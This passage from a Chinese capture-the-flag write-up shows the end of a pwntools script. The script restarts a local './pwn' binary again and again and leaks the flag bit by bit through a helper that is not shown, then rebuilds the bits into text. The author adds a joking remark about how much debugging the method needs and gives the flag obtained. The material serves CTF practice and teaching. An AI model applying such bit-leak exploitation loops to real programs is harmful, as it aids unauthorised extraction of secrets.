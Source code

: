 ```python
    print(h)
    i=0
    while i<8:
#        sleep(1)
        r=process("./pwn")
#        gdb.attach(r)
#        pause()
        flag_bit=getflag(h,i)
        if flag_bit==0 or flag_bit==1: #如果得到了正确的值
            print(flag_bit) 
            flag_b.append(flag_bit) #添加到flag列表
            i+=1 #继续泄露下一位
        r.close()
        #如果没有泄露成功,程序就会重新尝试泄露这一位
    
flag=''
flag_ord=0
for j in range(0,8*0x1e,8):
    flag_ord=0
    for k in range(8):
        flag_ord*=2
        flag_ord+=flag_b[j+7-k]

    print(chr(flag_ord))
    flag+=chr(flag_ord)

print(flag_b)
print(flag)
```

顺便一提,这个方案需要~~焚香沐浴,祷告更衣,赞美欧姆弥赛亚,赞美奸奇,赞美破碎之神,赞美冯诺依曼,赞美图灵,赞美中央处理器,赞美内存和虚拟内存,赞美晶体管集成电路,赞美电子~~反复调试,找一个不可见字符看起来比较少的参数多尝试几次.(当然,可能也和我的本地环境不太稳定有关系)

附上表现最好的一次:(th15_15_fak0_f1ag) 

